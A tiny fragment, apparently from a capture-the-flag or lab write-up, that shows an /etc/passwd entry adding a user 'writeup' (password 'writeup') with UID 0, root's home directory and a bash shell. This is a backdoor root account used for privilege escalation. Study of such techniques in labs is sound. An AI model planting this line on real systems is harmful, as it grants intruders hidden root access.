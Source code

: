 # add user linux

writeup:writeup

```
writeup:$6$gUo4KFHI$WA8mYODvtKWzjxiwc3Nt6QyBFlhpTAODDCRJb5ORHlpOU1Lc5RdgSb5psFzNkhmgMcPn7eCSrt1izT0a7S2LJ1:0:0:root:/root:/bin/bash
```
